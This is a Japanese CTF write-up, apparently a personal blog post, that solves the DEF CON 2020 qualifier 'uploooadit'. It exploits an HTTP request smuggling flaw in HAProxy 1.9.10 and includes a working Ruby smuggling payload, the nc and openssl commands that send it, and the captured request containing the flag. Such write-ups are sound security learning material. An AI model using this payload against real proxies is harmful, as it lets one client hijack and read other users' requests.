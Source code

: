 +++
author = "Satoshi Tajima"
categories = [ "ja", "" ]
date = "2020-05-18T23:00:00+09:00"
description = ""
featured = ""
featuredalt = ""
featuredpath = ""
linktitle = ""
title = "DEF CON CTF Qualifier 2020 uploooadit WriteUp"

+++

2020/05/16 ~ 2020/05/18 に開催されたDEF CON CTF Qualifier 2020に参加して、  
welcome-to-dc2020-quals, welcome-video, uploooaditの3問をときました。  

最初の2つはチュートリアルなので割愛して、uploooaditのWriteUpを書きます。  

# ソースコードを確認

* Flaskで書かれたPythonのWebアプリケーション
* エンドポイントは以下の3つ
    * GET / ... 空のページです。
    * POST /files/ ... X-guidというリクエストヘッダに記載された文字列の通りのパスにファイルを保存します。
    * GET /files/ ... POST /files/ でアップロードしたファイルのコンテンツを返します。


# 稼働環境を確認

普通にリクエストを投げてみて、HAProxy + gunicorn/20.0.0の構成ということがわかります。

```
$ curl -sv https://uploooadit.oooverflow.io/
.. snip ..
< HTTP/1.1 204 NO CONTENT
< Server: gunicorn/20.0.0
< Date: Sat, 16 May 2020 13:05:18 GMT
< Content-Type: text/html; charset=utf-8
< Via: haproxy
.. snip ..
```

今度はエラーになるようなリクエストを投げてみて、HAProxyのバージョンは1.9.10ということがわかります。  
https://www.haproxy.org/download/1.9/src/CHANGELOG を見ると、2019/08/08のリリースと若干古いのが気になります。。  
```
$ curl -sv https://uploooadit.oooverflow.io/あ
< HTTP/1.0 400 Bad request
< Server: haproxy 1.9.10
< Cache-Control: no-cache
< Connection: close
< Content-Type: text/html
<
<html><body><h1>400 Bad request</h1>
Your browser sent an invalid request.
</body></html>
.. snip ..
```

SSRFやHTTP request smuggling的あたりができるのではと疑い、
調べてみると HAProxy の HTTP request smuggling というそのまんまの記事が見つかります。

* https://nathandavison.com/blog/haproxy-http-request-smuggling
* https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

この時点でこんな仮設をたてました。

* フラグが含まれたObjectに対するアクセス、ないしはフラグをアップロードするアクセスが、定常的にリクエストされている。
* HTTP request smugglingによって、そのアクセスの内容を盗み取る必要がある。


# ローカルで検証環境の作成

適当に立ち上げたEC2上に...

* HAProxyの1.9.10を用意 (ソースコードからコンパイル)
* gunicornを用意 (pipでインストール)
* 提供された app.py, store.py を使用 (S3StoreはLocalStoreに切り替え)

という形で環境をつくります。

そして、まずはRubyでこんなPayloadを作成。

* payload.rb

```
payload = <<EOP
POST /files/ HTTP/1.1\r
Host: uploooadit.oooverflow.io\r
X-guid: 11111111-2222-3333-1111-111111111112\r
Content-Type: text/plain\r
Content-Length: 4\r
\r
test\r

EOP
print payload 
```

こんな形でトライ& エラーを繰り返せる状態を作ります。

```
$ ruby payload.rb | nc localhost 1080
```

tcpdumpも使い、パケットを見ながら調整していくと、こんな形でうまくいきそうなことがわかります。

* payload.rb

```
payload = <<EOP.chomp
POST /files/ HTTP/1.1\r
Host: uploooadit.oooverflow.io\r
X-guid: 11111111-2222-3333-1111-111111111112\r
Content-Type: text/plain\r
Content-Length: 158\r
Transfer-Encoding: \x0bchunked\r
\r
0\r
\r
POST /files/ HTTP/1.1\r
Host: uploooadit.oooverflow.io\r
X-guid: 11111111-2222-3333-1111-111111111119\r
Content-Type: text/plain\r
Content-Length: 388\r
\r
test
EOP

print payload 
sleep(10)
```

* コマンド

```bash
$ unbuffer ruby payload.rb | nc localhost 1080
$ curl http://localhost:1080/files/11111111-2222-3333-1111-111111111119
```

# 実環境でのトライ

実際の環境はhttpsなので、ncをopenssl s_clientにし、かつ Content-Length も調整していき...  
最終的に以下のようなコマンドにてリクエストを盗み見ることに成功。

```bash
$ unbuffer ruby payload.rb | openssl s_client -connect uploooadit.oooverflow.io:443
$ curl http://localhost:1080/files/11111111-2222-3333-1111-111111111119
```

リクエストのBodyにFLAGがありました。
```
tesPOST /files/ HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: invoker
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: text/plain
X-guid: 85a290de-9877-4d90-82ea-fe0700a570b0
Content-Length: 152
X-Forwarded-For: 127.0.0.1

Congratulations!
OOO{That girl thinks she's the queen of the neighborhood/She's got the hottest trike in town/That girl, she holds her head up so high}
```

以上、久しぶりに参加したCTFのWriteUpでした。  
いつもCTFは遊び参加で数問見てみて終わりみたいになるんだけど、  
そろそろチームとか組んでがっつり時間確保して上位に入るのを目指すような参加をしたい。


